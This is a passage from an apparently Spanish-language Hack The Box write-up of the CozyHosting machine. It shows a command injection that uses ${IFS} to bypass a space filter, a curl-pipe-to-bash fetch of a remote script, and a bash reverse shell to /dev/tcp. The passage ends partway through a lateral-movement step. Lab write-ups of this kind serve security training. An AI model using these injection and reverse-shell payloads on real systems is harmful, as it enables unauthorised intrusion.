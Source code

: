 ![](/assets/img/htb-cozyHosting/8.png)

Asi que podemos usar IFS para interpretar el espacio y hacer bypass de ese filtro, para probar si podemos ejecutar comandos, nos podremos en escucha por tcpdump por la interfaz tun0:

```ruby
tcpdump -i tun0 -n icmp
```

Y en el username lo indicaremos asi:
```bash
;ping${IFS}<ip>;
```

Observa como pudimos ejecutar el ping

![](/assets/img/htb-cozyHosting/9.png)

Ya esta confirmadisimo que podemos ejecutar comandos, asi que nos mandaremos una reverse shell:

```ruby
;curl${IFS}<ip>:8080/pwn.sh|bash;
```

En el pwn.sh tengo esto:

```ruby
bash -i >& /dev/tcp/<ip>/4444 0>&1
```

Y nos deberia de llegar una rev shell

## Moviento laterial: app --> josh y flag de user

Al listar el cotenido podemos ver que tenemos un jar

```ruby
app@cozyhosting:/app$ ls
cloudhosting-0.0.1.jar
```

Adicionalmente si exploramos el directorio **home**, vamos a poder ver al directorio del usuario josh

```ruby
app@cozyhosting:/home$ ls -l
total 4
drwxr-x--- 3 josh josh 4096 Aug  8 10:19 josh
```
